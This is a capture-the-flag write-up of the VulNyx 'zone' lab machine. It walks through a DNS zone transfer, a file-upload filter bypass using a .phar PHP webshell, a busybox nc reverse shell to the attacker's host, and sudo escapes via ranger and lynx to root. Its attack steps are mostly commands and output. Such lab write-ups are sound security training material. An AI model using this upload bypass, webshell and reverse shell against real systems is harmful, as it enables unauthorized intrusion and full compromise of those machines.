

# zone

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| zone | d4t4s3c | Easy | VulNyx |

**Summary:** The zone machine exposed SSH on port 22, a DNS server on port 53, and an Apache web server on port 80. A gobuster scan discovered a `robots.txt` file containing a sitemap reference to `securezone.nyx`, which led to a DNS zone transfer that revealed four subdomains: `admin`, `ns1`, `upl0ads`, and `www`, all resolving to `127.0.0.1`. After adding these to `/etc/hosts`, the `upl0ads.securezone.nyx` subdomain presented a PHP file upload form. Extension filtering was bypassed using the `.phar` extension, allowing a PHP webshell to be uploaded to the `/uploads/` directory. Command execution was confirmed through the `cmd` parameter, and a reverse shell was obtained as `www-data` using `busybox nc`. Sudo enumeration showed that `www-data` could run `/usr/bin/ranger` as user `hans` without a password. Exploiting ranger's shell feature via GTFOBins provided a shell as `hans`. Further sudo checks revealed that `hans` could run `/usr/bin/lynx` as root without a password, and invoking lynx with the `:shell` command delivered a full root shell for flag retrieval.

---

## Reconnaissance

The engagement began by locating the target on the local network and enumerating its TCP attack surface.

1. An Nmap host discovery sweep identified the target at `192.168.56.167`:

```zsh
~/projects/labs/nyx                                                                10:26:07  
❯ sudo nmap -sn -PR 192.168.56.0/24            
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-04 10:26 +0700  
Nmap scan report for 192.168.56.100  
Host is up (0.00030s latency).  
MAC Address: 08:00:27:5E:7E:56 (Oracle VirtualBox virtual NIC)  
Nmap scan report for 192.168.56.167  
Host is up (0.0012s latency).  
MAC Address: 08:00:27:BF:F2:98 (Oracle VirtualBox virtual NIC)  
Nmap scan report for 192.168.56.1  
Host is up.  
Nmap done: 256 IP addresses (3 hosts up) scanned in 5.31 seconds  
  
~/projects/labs/nyx                                                              16s 10:26:50  
❯ ip=192.168.56.167  
```

2. A full TCP scan with service detection revealed SSH, DNS, and HTTP:

```zsh
~/projects/labs/nyx                                                                10:26:55  
❯ nmap -p- -sCV -Pn -T4 --min-rate 5000 $ip  
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-04 10:26 +0700  
Nmap scan report for 192.168.56.167  
Host is up (0.00021s latency).  
Not shown: 65532 closed tcp ports (conn-refused)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:   
|   2048 f7:ea:48:1a:a3:46:0b:bd:ac:47:73:e8:78:25:af:42 (RSA)  
|   256 2e:41:ca:86:1c:73:ca:de:ed:b8:74:af:d2:06:5c:68 (ECDSA)  
|_  256 33:6e:a2:58:1c:5e:37:e1:98:8c:44:b1:1c:36:6d:75 (ED25519)  
53/tcp open  domain  Eero device dnsd  
| dns-nsid:   
|_  bind.version: not currently available  
80/tcp open  http    Apache httpd 2.4.38 ((Debian))  
|_http-server-header: Apache/2.4.38 (Debian)  
|_http-title: Apache2 Debian Default Page: It works  
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 16.66 seconds  
```

3. A gobuster directory scan discovered a `robots.txt` file on the web server:

```zsh
~/projects/labs/nyx                                                                10:37:04  
❯ gobuster dir -u http://$ip/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html         
===============================================================  
Gobuster v3.8.2  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://192.168.56.167/  
[+] Method:                  GET  
[+] Threads:                 10  
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.8.2  
[+] Extensions:              txt,php,html  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
index.html           (Status: 200) [Size: 10700]  
robots.txt           (Status: 200) [Size: 67]  
```

4. The `robots.txt` file contained a sitemap reference to `securezone.nyx`, which was not resolvable without DNS:

```zsh
~/projects/labs/nyx                                                                10:37:29  
❯ curl -s -iL http://$ip/robots.txt  
HTTP/1.1 200 OK  
Date: Fri, 04 Sep 2026 03:37:32 GMT  
Server: Apache/2.4.38 (Debian)  
Last-Modified: Sat, 06 May 2023 10:48:51 GMT  
ETag: "43-5fb0426b34019"  
Accept-Ranges: bytes  
Content-Length: 67  
Content-Type: text/plain  
  
User-agent: *  
Allow: /  
  
Sitemap: http://securezone.nyx/sitemap.xml  
```

5. A DNS zone transfer against the target's DNS server on port 53 revealed four subdomains all resolving to `127.0.0.1`:

```zsh
~/projects/labs/nyx                                                                10:37:35  
❯ dig axfr securezone.nyx @$ip  
  
; <<>> DiG 9.20.27 <<>> axfr securezone.nyx @192.168.56.167  
; (1 server found)  
;; global options: +cmd  
securezone.nyx.         604800  IN      SOA     ns1.securezone.nyx. root.securezone.nyx. 2 604800 86400 2419200 604800  
securezone.nyx.         604800  IN      NS      ns1.securezone.nyx.  
admin.securezone.nyx.   604800  IN      A       127.0.0.1  
ns1.securezone.nyx.     604800  IN      A       127.0.0.1  
upl0ads.securezone.nyx. 604800  IN      A       127.0.0.1  
www.securezone.nyx.     604800  IN      A       127.0.0.1  
securezone.nyx.         604800  IN      SOA     ns1.securezone.nyx. root.securezone.nyx. 2 604800 86400 2419200 604800  
;; Query time: 0 msec  
;; SERVER: 192.168.56.167#53(192.168.56.167) (TCP)  
;; WHEN: Fri Sep 04 10:38:30 WIB 2026  
;; XFR size: 7 records (messages 1, bytes 248)  
```

6. The discovered subdomains were added to `/etc/hosts` to enable virtual host resolution:

```zsh
~/projects/labs/nyx                                                                10:38:30  
❯ echo "$ip admin.securezone.nyx ns1.securezone.nyx upl0ads.securezone.nyx www.securezone.nyx securezone.nyx" | sudo tee -a /etc/hosts  
[sudo] password for setyanoegraha:   
192.168.56.167 admin.securezone.nyx ns1.securezone.nyx upl0ads.securezone.nyx www.securezone.nyx securezone.nyx  
```

---

## Initial Access

### File Upload Bypass and Webshell Deployment

7. Probing `upl0ads.securezone.nyx` revealed a PHP file upload form:

```zsh
~/projects/labs/nyx                                                                10:39:18  
❯ curl -s -i http://upl0ads.securezone.nyx/  
HTTP/1.1 200 OK  
Date: Fri, 04 Sep 2026 03:39:41 GMT  
Server: Apache/2.4.38 (Debian)  
X-Powered-By: PHP/7.3.31-1~deb10u3  
Vary: Accept-Encoding  
Content-Length: 525  
Content-Type: text/html; charset=UTF-8  
  
<html>  
<head>  
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">  
<style>  
html, body {  
    height: 30%;  
}  
html {  
    display: table;  
    margin: auto;  
}  
body {  
    display: table-cell;  
    vertical-align: middle;  
    text-align: center;  
}  
</style>  
</head>  
<body>  
<form action="index.php" method="post" enctype="multipart/form-data">  
    <h3>Upload</h3><br />  
    <input type="file" name="file" id="file">  
    <input class="btn btn-primary" type="submit" value="Submit" name="submit">  
</form>  
</body>  
</html>  
```



8. A brute force test of alternative PHP extensions showed that only `.phar` bypassed the upload filter:

```zsh
~/projects/labs/nyx                                                                10:42:30  
❯ for ext in phtml php5 pht phar PHP Php php3 php4 php7; do  
  echo "== $ext =="  
  cp shell.php shell.$ext  
  curl -s -F "file=@shell.$ext" -F "submit=Submit" http://upl0ads.securezone.nyx/index.php | grep -Eo "Extension not|Invalid|success|uploaded|error"   
done  
== phtml ==  
Extension not  
== php5 ==  
Extension not  
== pht ==  
Extension not  
== phar ==  
== PHP ==  
Extension not  
== Php ==  
Extension not  
== php3 ==  
Extension not  
== php4 ==  
Extension not  
== php7 ==  
Extension not  
```

9. The `.phar` extension was uploaded successfully and confirmed accessible through the web server:

```zsh
~/projects/labs/nyx                                                                10:44:04  
❯ curl -s -i -F "file=@shell.phar" -F "submit=Submit" http://upl0ads.securezone.nyx/index.php  
HTTP/1.1 200 OK  
Date: Fri, 04 Sep 2026 03:44:32 GMT  
Server: Apache/2.4.38 (Debian)  
X-Powered-By: PHP/7.3.31-1~deb10u3  
Vary: Accept-Encoding  
Content-Length: 532  
Content-Type: text/html; charset=UTF-8  
  
<html>  
<head>  
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">  
<style>  
html, body {  
    height: 30%;  
}  
html {  
    display: table;  
    margin: auto;  
}  
body {  
    display: table-cell;  
    vertical-align: middle;  
    text-align: center;  
}  
</style>  
</head>  
<body>  
<form action="index.php" method="post" enctype="multipart/form-data">  
    <h3>Upload</h3><br />  
    <input type="file" name="file" id="file">  
    <input class="btn btn-primary" type="submit" value="Submit" name="submit">  
</form>  
Success</body>  
</html>  
```

10. Command execution was verified through the `cmd` query parameter:

```zsh
~/projects/labs/nyx                                                                10:44:34  
❯ curl -s "http://upl0ads.securezone.nyx/uploads/shell.phar?cmd=id"  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

11. A Penelope listener was started on port 5555, and a reverse shell was triggered using `busybox nc`:

```zsh
~/projects/labs/nyx                                                                   4m 13s 10:41:24  
❯ penelope -p 5555     
[+] Listening for reverse shells on 0.0.0.0:5555 -> 127.0.0.1 • 172.16.162.167 • 192.168.56.1  
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)  
```

```zsh
~/projects/labs/nyx                                                                10:47:25  
❯ curl -s "http://upl0ads.securezone.nyx/uploads/shell.phar?cmd=busybox%20nc%20192.168.56.1%205555%20-e%20/bin/bash"  
```

12. The reverse shell connected as `www-data`, providing the initial foothold:

```zsh
[+] [New Reverse Shell] => zone 192.168.56.167 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>  
[+] ⭐ Agent deployed via /usr/bin/python3  
[+] Interacting with session [1] • PTY • Menu key F12 ⇐  
[+] Session log: /home/setyanoegraha/.penelope/sessions/zone~192.168.56.167-Linux-x86_64/2026_09_04-10_47_45-714-www-data_33.log  
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
www-data@zone:/var/www/site/uploads$ id;hostname  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
zone  
```

---

## Lateral Movement

### Abusing sudo ranger to Switch to hans

13. User enumeration identified `hans` as a non root user with a login shell, and sudo enumeration showed that `www-data` could run `/usr/bin/ranger` as `hans` without a password:

```zsh
www-data@zone:/var/www/site/uploads$ cat /etc/passwd | grep "sh$"  
root:x:0:0:root:/root:/bin/bash  
hans:x:1000:1000:hans,,,:/home/hans:/bin/bash  
www-data@zone:/var/www/site/uploads$ ls -la /home  
total 12  
drwxr-xr-x  3 root root 4096 Jan  9  2021 .  
drwxr-xr-x 18 root root 4096 May  6  2023 ..  
drwx------  5 hans hans 4096 May  6  2023 hans  
```

```zsh
www-data@zone:/var/www$ sudo -l  
Matching Defaults entries for www-data on zone:  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User www-data may run the following commands on zone:  
    (hans) NOPASSWD: /usr/bin/ranger  
```

14. Ranger was launched as user `hans` and exploited through its built in shell feature to obtain a shell as `hans`:

```zsh
www-data@zone:/var/www$ sudo -u hans ranger  
-- Inside ranger type S  
hans@zone:~$ id;whoami;hostname  
uid=1000(hans) gid=1000(hans) groups=1000(hans)  
hans  
zone  
```

---

## Privilege Escalation

### Abusing sudo lynx to Obtain Root

15. Sudo enumeration for `hans` revealed passwordless access to `/usr/bin/lynx` as root:

```zsh
hans@zone:~$ sudo -l  
Matching Defaults entries for hans on zone:  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User hans may run the following commands on zone:  
    (root) NOPASSWD: /usr/bin/lynx  
```

16. Lynx was launched as root and exploited through its `:shell` command to obtain a full root shell. Both flags were retrieved:

```zsh
hans@zone:~$ sudo -u root lynx  
```

Inside lynx, the `:shell` command was typed to escape to a root shell:

```zsh
root@zone:/home/hans# cd  
root@zone:~# id;whoami;hostname  
uid=0(root) gid=0(root) groups=0(root)  
root  
zone  
root@zone:~# cat /home/hans/user.txt /root/root.txt   
da9...  
63b...  
```

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery identified `192.168.56.167` with SSH, DNS, and HTTP. A gobuster scan found `robots.txt` referencing `securezone.nyx`, and a DNS zone transfer revealed four subdomains: `admin`, `ns1`, `upl0ads`, and `www`, all resolving to `127.0.0.1`.

2. **Vulnerability Discovery**: The `upl0ads.securezone.nyx` subdomain presented a file upload form with extension filtering. Testing showed that the `.phar` extension bypassed the filter and was served by the web server.

3. **Exploitation**: A PHP webshell was uploaded with the `.phar` extension and accessed through `/uploads/shell.phar?cmd=id` to confirm command execution. A reverse shell was obtained using `busybox nc` as `www-data` on port 5555.

4. **Internal Enumeration**: Sudo rules showed `www-data` could run `/usr/bin/ranger` as `hans`, and `hans` could run `/usr/bin/lynx` as root. Both binaries have known GTFOBins escape techniques.

5. **Privilege Escalation**: Ranger's shell feature was exploited to move from `www-data` to `hans`, and lynx's `:shell` command was exploited to escalate from `hans` to root, completing the attack chain.
